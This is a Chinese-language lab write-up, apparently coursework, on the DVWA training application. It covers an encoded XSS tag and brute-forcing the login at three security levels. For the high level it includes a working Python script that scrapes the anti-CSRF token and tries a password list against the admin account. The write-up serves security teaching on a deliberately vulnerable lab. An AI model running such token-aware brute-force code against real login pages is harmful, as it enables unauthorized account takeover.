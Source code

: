 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120112014116.png)
可以看到标签被html转码了，因此无法执行：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120112132594.png)
## 2.3
### 任务
安装 DVWA 漏洞系统（OWASPBWA 里面默认包含该系统），并完成图中标识的题目
（security level 为 low、medium 和 high 三个级别的情况）。

### 步骤

#### 1、 Brute Force
（1）Low
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191124155243883.png)
一个登录框，抓包下来放到BurpSuite的Intruder模块进行爆破：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191124161256705.png)
当密码为password时，成功登录：

![在这里插入图片描述](https://img-blog.csdnimg.cn/201911241621505.png)
（2）medium

加入了延时，但是依旧可以爆破出来：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191124162749678.png)
（3）high
表单提交的时候带上了token，直接爆破不行了，需要写个脚本获取token再带着token去访问：

```python
import requests
from lxml import etree

header = {'Cookie': 'security=high; PHPSESSID=6petkvebd12iaug1tobmleq6uq'}

url = "http://49.234.118.102:6140/DVWA/vulnerabilities/brute/"

with open('password.txt', 'r') as fd:
    pwd_list = fd.read().split('\n')

token = etree.HTML(requests.get(url, headers=header).text).xpath("//input[@name='user_token']/@value")[0]
for pwd in pwd_list:
    url = f"http://49.234.118.102:6140/DVWA/vulnerabilities/brute/?username=admin&password={pwd}&Login=Login&user_token={token}"
    req = requests.get(url, headers=header).text
    if "Welcome" in req:
        print("Find the password: " + pwd)
        break
    token = etree.HTML(req).xpath("//input[@name='user_token']/@value")[0]
```
